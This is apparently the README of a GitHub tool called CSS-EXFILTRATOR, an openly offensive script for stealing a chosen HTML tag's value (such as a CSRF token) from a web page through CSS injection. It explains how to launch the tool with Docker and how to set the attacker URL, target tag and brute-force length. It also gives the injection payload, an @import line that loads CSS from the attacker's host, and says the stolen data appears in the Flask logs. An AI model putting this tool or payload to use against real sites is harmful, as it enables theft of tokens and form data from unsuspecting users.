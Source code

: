 # CSS-EXFILTRATOR
easy to use (really)

Easy script to target and exfiltrate one tag.

## How to launch

Very easy.

```
docker compose up --build
```

## How to configure ?

Very easy.

in app.py you can change 

attacker_url: by your protocol://ip:port
target_balise: tag you want to target (input with csrf ?)
size_of_field_to_brute: max size you need to search for your tag
entry_point: first endpoint where the script needs to listen (leave start if you have no constraints on the application you're attacking)

## How to use ?

Very easy.

`@import '<PROTOCOL>://<IP:PORT>/<ENTRY_POINT>';`

## Where is result ?

You can find it easily in the log flasks.